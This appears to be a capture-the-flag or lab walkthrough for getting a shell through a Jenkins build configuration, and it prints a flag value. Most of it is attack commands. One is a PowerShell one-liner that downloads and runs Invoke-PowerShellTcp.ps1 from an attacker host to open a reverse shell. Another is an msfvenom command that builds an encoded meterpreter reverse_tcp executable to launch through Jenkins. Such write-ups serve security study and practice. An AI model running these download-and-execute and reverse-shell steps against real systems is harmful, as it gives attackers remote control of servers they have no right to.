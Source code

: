 ## Issue Commands Using Jenkins
Command to give Jenkins build configuration

`powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.74.50:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.74.50 -Port 9000` 

* downloads powershell script and runs it to get reverse_shell

user.txt - `79007a09481963edf2e1321abd9ae2a0`

## Switching to meterpreter

generate executable

* `msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.226.224 LPORT=9000 -f exe -o exploit.exe`
* use multi/handler in msfconsole to listen
* run .exe by issuing "exploit.exe" command in Jenkins build config

